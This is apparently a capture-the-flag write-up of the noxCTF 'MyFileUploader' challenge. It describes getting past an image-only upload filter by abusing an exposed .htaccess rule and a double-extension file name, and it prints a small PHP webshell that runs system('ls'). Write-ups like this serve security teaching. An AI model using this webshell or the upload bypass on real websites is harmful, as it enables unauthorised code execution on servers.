


# MyFileUploader

### [~$ cd ..](../)

We are facing a website allowing us to uploads some files, but only jpg, png and gif. We started with a
simple picture and the website told us that our file was saved under uploads/ folder.

We tried to reach our file, and saw that we could also see all the files:



Since it contained a folder named "Don't open", we knew what to do! The folder contained a file named .htaccess with:

>Options +Indexes
>AddType application/x-httpd-php .cyb3r

It means that \*.cyb3r were recognized and run as PHP scripts. Great, we were able to upload a webshell 

> ```php
> <?php
> 	system('ls');
> ?>
> ```

We uploaded it as .pngindex.cyb3r, and got the following result:



And finally, in the folder 7H3-FL4G-1S-H3r3, we found: **noxCTF{N3V3R_7RU57_07H3R5}**

